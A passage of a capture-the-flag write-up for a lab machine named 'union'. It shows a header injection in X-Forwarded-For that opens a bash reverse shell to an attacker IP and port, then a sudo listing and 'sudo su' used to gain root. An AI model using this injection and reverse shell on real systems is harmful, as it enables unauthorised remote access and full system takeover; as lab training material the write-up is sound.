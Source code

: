 - Let's get reverse shell
  - Payload: `X-Forwarded-For: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.16.4/6666 0>&1";`

![](./images/9.png)

## Root
- `sudo`
```
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL

```

- Rooted
```
www-data@union:~/html$ sudo su
root@union:/var/www/html# 
```